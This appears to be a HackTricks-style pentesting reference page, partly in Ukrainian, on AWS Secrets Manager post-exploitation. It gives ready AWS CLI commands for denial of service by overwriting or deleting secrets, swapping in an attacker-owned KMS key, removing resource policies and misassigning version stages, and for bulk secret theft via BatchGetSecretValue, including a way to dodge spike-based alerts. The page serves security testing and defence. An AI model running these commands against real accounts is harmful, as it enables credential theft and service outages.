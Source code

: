 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Для додаткової інформації див.:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Читання секретів

The **секрети самі по собі є чутливою інформацією**, [перегляньте сторінку privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md), щоб дізнатися, як їх прочитати.

### DoS Change Secret Value

Зміна значення секрету може призвести до **DoS всіх систем, які залежать від цього значення.**

> [!WARNING]
> Зверніть увагу, що попередні значення також зберігаються, тож легко повернутися до попереднього значення.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Якщо зловмисник має дозвіл secretsmanager:UpdateSecret, він може налаштувати secret на використання KMS key, який належить зловмиснику. Цей ключ спочатку налаштований так, щоб будь-хто міг отримати до нього доступ і використовувати його, тож оновлення secret з новим ключем можливе. Якби ключ був недоступний, secret не вдалося б оновити.

Після зміни ключа для secret зловмисник змінює конфігурацію свого ключа так, щоб лише він мав до нього доступ. Таким чином у наступних версіях secret буде зашифровано новим ключем, і, оскільки доступу до нього не буде, можливість отримати secret буде втрачена.

Важливо зазначити, що ця недоступність виникне лише в пізніших версіях — після того як вміст secret зміниться, оскільки поточна версія все ще зашифрована оригінальним KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Мінімальна кількість днів для видалення секрету — 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Можна відновити секрет, що дозволяє відновлювати секрети, які були заплановані на видалення, оскільки мінімальний період видалення для секретів — 7 днів, а максимальний — 30 днів. Разом з дозволом secretsmanager:GetSecretValue це дозволяє отримати їх вміст.

Щоб відновити секрет, який знаходиться в процесі видалення, можна використати наступну команду:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ця дія дозволяє видаляти політику ресурсу, яка контролює, хто може отримати доступ до secret. Це може призвести до DoS, якщо політика ресурсу була налаштована так, щоб дозволяти доступ певному набору користувачів.

Щоб видалити політику ресурсу:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Стани секрету використовуються для керування версіями секрету. AWSCURRENT позначає активну версію, яку використовують додатки; AWSPREVIOUS зберігає попередню версію, щоб у разі потреби можна було відкотитися; а AWSPENDING використовується в процесі ротації для підготовки та перевірки нової версії перед тим, як зробити її поточною.

Додатки завжди читають версію з AWSCURRENT. Якщо хтось перемістить цей ярлик на неправильну версію, додатки використовуватимуть недійсні облікові дані і можуть відмовити.

AWSPREVIOUS не використовується автоматично. Проте, якщо AWSCURRENT буде видалено або переназначено неправильно, може створитися враження, що все досі працює з попередньою версією.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (до 20 за виклик)

Abuse the Secrets Manager BatchGetSecretValue API, щоб отримати до 20 секретів в одному запиті. Це може значно зменшити обсяг викликів API порівняно з послідовним викликом GetSecretValue для кожного секрету. Якщо використовуються фільтри (теги/ім'я), також потрібен дозвіл ListSecrets. CloudTrail все одно фіксує по одному GetSecretValue event для кожного секрету, отриманого в батчі.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Зверніть увагу, що дозвіл `secretsmanager:BatchGetSecretValue` сам по собі недостатній для отримання секретів — вам також потрібен `secretsmanager:GetSecretValue` для кожного секрету, який ви хочете отримати.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate за допомогою фільтрів (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Обробка часткових збоїв
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Вплив
- Швидке “smash-and-grab” великої кількості секретів з меншою кількістю викликів API, потенційно обходячи сповіщення, налаштовані на сплески GetSecretValue.
- Логи CloudTrail все ще містять по одному GetSecretValue event для кожного секрету, отриманого пакетом.
{{#include ../../../../banners/hacktricks-training.md}}
